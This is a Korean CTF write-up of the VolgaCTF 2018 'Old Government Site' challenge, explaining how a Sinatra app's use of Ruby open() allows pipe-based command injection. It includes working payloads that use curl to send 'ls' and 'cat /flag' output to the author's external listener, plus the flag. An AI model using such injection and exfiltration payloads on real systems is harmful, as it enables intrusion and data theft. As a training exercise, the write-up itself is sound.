









# Old Goverment Site

**Description:**
> It's an old government web-site. Please, don't touch it. It works properly.  
> http://old-government-site.quals.2018.volgactf.ru:8080/  
> [188.246.233.50:8080](http://188.246.233.50:8080)  
> [46.21.249.219:8080](http://46.21.249.219:8080)  

## Keyword
* Sinatra
* SSRF
* Ruby Command Injection

## Solution
메인 페이지를 보면 Contact, About 페이지와 Bulky Waste Collection, Electric Vehicle charging infrastructure, Council tax 페이지를 볼 수 있으며 해당 페이지들은 `/page?id=` 구조로 구분되어 있고 다른 특별한 점은 없었습니다.

http://old-government-site.quals.2018.volgactf.ru:8080/flag
  
위와 같이 접근 시 `Sinatra doesn’t know this ditty.`라는 메시지를 볼 수 있고 Sinatra는 최소한의 노력으로 루비 기반 웹 애플리케이션을 빠르게 만들 수 있게 도와주는 DSL 입니다.

  
그리고 위와 같이 에러 발생 시 해당 웹 애플리케이션이 루비로 동작하고 있음을 알 수 있습니다.

  
  
http://old-government-site.quals.2018.volgactf.ru:8080/page?id[]=36
위와 같이 접근 시 상세한 에러 페이지를 볼 수 있고 해당 페이지에서 `page?id=18` 정보도 알 수 있습니다.

`page?id=18`에 접근해보면 Private garbage company 페이지에서 `Site`와 Company description을 입력하여 전송할 수 있으며 `Site`에는 HTTP 형식에 따라 *error*와 *validated*가 발생하는 것을 볼 수 있습니다.
  
  

문제에서 주어진 힌트를 통해 루비에서 발생 가능성이 있는 취약점을 이용하여 공격을 시도해보면 *Command Injection*이 가능한 것을 확인할 수 있습니다.  
`open(| Command Injection)`

  
`nc -l 31339`

  
```
|curl http://do9.kr:31339 --data "`ls`";
```

위와 같은 방법으로 flag를 찾아보면 /에서 flag 파일을 확인 후 flag를 확인할 수 있습니다.
  
```
|curl http://do9.kr:31339 --data "`cat /flag`";
```

## Flag
VolgaCTF{dedicated_to_all_goverment_site}
